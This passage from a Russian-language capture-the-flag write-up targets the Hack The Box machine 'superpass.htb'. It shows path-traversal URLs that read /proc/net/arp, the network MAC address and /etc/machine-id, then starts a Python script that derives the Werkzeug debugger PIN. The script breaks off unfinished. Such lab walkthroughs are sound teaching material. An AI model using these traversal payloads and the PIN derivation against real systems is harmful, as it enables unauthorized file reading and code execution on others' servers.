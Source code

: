 ```
http://superpass.htb/download?fn=../../../../../../proc/net/arp
http://superpass.htb/download?fn=../../../../../../sys/class/net/eth0/address
```

Найдя MAC-адрес, убираем разделения ":". Скорипуем, то что мы получили и запустим python. Нужно перевести данный MAC-адрес в шестнадцатеричную систему. 

```
python3

print(0x005056b93438)
345052361784
```

6. Теперь нам нужно найти get_machine_id().

```
http://superpass.htb/download?fn=../../../../../../../etc/machine-id
/proc/self/cgroup

ed5b159560f54721827644bc9b220d00superpass.service
```

Теперь у нас есть все что нужно для атаки. Для этого мы будем использовать следующий скрипт, в который вставим найденные нами значения.

```
import hashlib
import itertools
from itertools import chain

def crack_md5(username, modname, appname, flaskapp_path, node_uuid, machine_id):
    h = hashlib.md5()
    crack(h, username, modname, appname, flaskapp_path, node_uuid, machine_id)

def crack_sha1(username, modname, appname, flaskapp_path, node_uuid, machine_id):
    h = hashlib.sha1()
    crack(h, username, modname, appname, flaskapp_path, node_uuid, machine_id)

def crack(hasher, username, modname, appname, flaskapp_path, node_uuid, machine_id):
    probably_public_bits = [
            username,
            modname,
            appname,
            flaskapp_path ]
    private_bits = [
            node_uuid,
            machine_id ]

    h = hasher
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode('utf-8')
        h.update(bit)
    h.update(b'cookiesalt')

    cookie_name = '__wzd' + h.hexdigest()[:20]

    num = None
    if num is None:
        h.update(b'pinsalt')
        num = ('%09d' % int(h.hexdigest(), 16))[:9]

    rv =None
    if rv is None:
```